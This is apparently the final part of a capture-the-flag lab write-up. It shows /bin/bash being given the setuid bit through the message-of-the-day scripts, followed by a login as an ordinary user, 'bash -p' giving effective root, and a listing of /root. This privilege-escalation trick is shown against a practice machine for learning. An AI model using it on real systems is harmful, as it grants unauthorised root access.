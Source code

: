 {% highlight shell %}
james@osboxes:/etc/update-motd.d$ ls -lash /bin | grep bash
1016K -rwxr-xr-x  1 root root 1014K May 16  2017 bash
    0 lrwxrwxrwx  1 root root     4 Feb 28  2019 rbash -> bash
{% endhighlight %}

After:

{% highlight shell %}
james@osboxes:/etc/update-motd.d$ ls -lash /bin | grep bash
1016K -rwsr-sr-x  1 root root 1014K May 16  2017 bash
    0 lrwxrwxrwx  1 root root     4 Feb 28  2019 rbash -> bash
{% endhighlight %}

And when I log in?

{% highlight shell %}
──(root💀kali)-[/opt/thm/debug]
└─# ssh james@10.10.151.167                                                                                                                                                         130 ⨯
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-45-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

439 packages can be updated.
380 updates are security updates.

Last login: Wed Mar 31 06:17:17 2021 from 10.9.10.123
-bash-4.3$ id
uid=1001(james) gid=1001(james) groups=1001(james)
-bash-4.3$ bash -p
bash-4.3# id
uid=1001(james) gid=1001(james) euid=0(root) egid=0(root) groups=0(root),1001(james)
bash-4.3# cd /root
bash-4.3# ls -lash
total 48K
4.0K drwx------  7 root root 4.0K Mar 10 18:36 .
4.0K drwxr-xr-x 24 root root 4.0K Feb 28  2019 ..
4.0K -rw-------  1 root root 1.3K Mar 10 18:38 .bash_history
4.0K -rw-r--r--  1 root root 3.1K Oct 22  2015 .bashrc
4.0K drwxr-xr-x  3 root root 4.0K Mar  9 20:01 .bundle
4.0K drwx------  2 root root 4.0K Mar 10 18:36 .cache
4.0K drwxr-xr-x  3 root root 4.0K Mar  9 20:00 .gem
4.0K drwxr-xr-x  2 root root 4.0K Mar 10 18:35 .nano
4.0K -rw-r--r--  1 root root  148 Aug 17  2015 .profile
4.0K -rw-r--r--  1 root root   33 Mar  9 20:56 root.txt
4.0K drwx------  2 root root 4.0K Mar  9 20:55 .ssh
4.0K -rw-r--r--  1 root root  211 Mar  9 19:59 .wget-hsts
bash-4.3# cat root.txt
HAHHAHHAHA GO DO IT YOURSELF
{% endhighlight %}

I enjoyed this one, learned some stuff and actually felt like I achieved something so three thumbs up to *ustoun0*.
